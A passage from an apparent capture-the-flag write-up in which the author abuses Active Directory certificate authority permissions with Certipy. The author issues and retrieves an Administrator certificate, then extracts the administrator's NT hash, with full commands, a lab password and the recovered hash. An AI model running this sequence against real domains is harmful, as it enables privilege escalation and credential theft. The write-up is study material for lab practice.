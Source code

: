 We note that the certificate request ID is 25. Let us now use our obtained permissions to manually
issue the failed certificate with the ca command and the `-issue-request <request ID>`
parameter.

`certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -issue-request 25`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate ←
```

Finally, we retrieve the issued certificate with the `req` command and the `-retrieve <request
ID>` parameter.

`certipy-ad req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-DC01-CA -retrieve 25`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 25
[*] Successfully retrieved certificate ←
[*] Got certificate with UPN 'Administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '25.key'
[*] Saved certificate and private key to 'administrator.pfx' ←
```

With the administrator's PFX file in our possession, we can now utilize it for authentication.

`file ./administrator.pfx`:
```
./administrator.pfx: data
```

`certipy-ad auth -pfx ./administrator.pfx`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
❌

`sudo ntpdate 10.10.11.236`:
```
2024-11-06 18:38:16.206819 (+0100) +25198.364128 +/- 0.028072 10.10.11.236 s1 no-leap
CLOCK: time stepped by 25198.364128
```

`certipy-ad auth -pfx ./administrator.pfx`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef ←
```

